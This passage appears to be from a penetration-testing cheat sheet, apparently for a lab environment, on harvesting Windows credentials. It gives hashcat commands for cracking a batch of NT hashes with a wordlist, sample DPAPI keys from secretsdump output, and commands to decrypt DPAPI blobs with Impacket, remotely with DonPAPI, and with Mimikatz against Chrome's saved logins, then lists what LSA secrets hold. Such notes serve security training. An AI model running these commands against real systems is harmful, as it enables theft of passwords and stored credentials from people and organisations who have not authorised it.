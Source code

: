 ### Batch Hash Cracking
```bash
# Multiple NT hashes
cat > hashes.txt << EOF
64f12cddaa88057e06a81b54e73b949b
6f8c3f4d3869a10f3b4f0522f537fd33
184ecdda8cf1dd238d438c4aea4d560d
f7eb9c06fafaa23c4bcf22ba6781c1e2
EOF

# Crack all at once
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

## DPAPI (Data Protection API)

### What DPAPI Protects
- **Browser passwords** (Chrome, Edge, Firefox)
- **Email passwords** (Outlook)
- **Saved RDP credentials**
- **Wireless network passwords**
- **Credential Manager entries**

### DPAPI Keys from secretsdump
```bash
# From secretsdump output
dpapi_machinekey:0xb1e1744d2dc4403f9fb0420d84c3299ba28f0643
dpapi_userkey:0x7995f82c5de363cc012ca6094d381671506fd362
```

### Decrypting DPAPI Blobs
```bash
# Using Impacket dpapi
python3 dpapi.py unprotect -key 0xb1e1744d2dc4403f9fb0420d84c3299ba28f0643 -file encrypted_blob

# Using DonPAPI (remote)
python3 DonPAPI.py domain/user:password@10.129.42.198

# Using Mimikatz
mimikatz.exe
dpapi::chrome /in:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect
```

## LSA Secrets

### What LSA Secrets Contain
- **Service account passwords**
- **Scheduled task credentials**
- **Auto-logon passwords**
- **DPAPI machine keys**
- **Cached domain credentials**
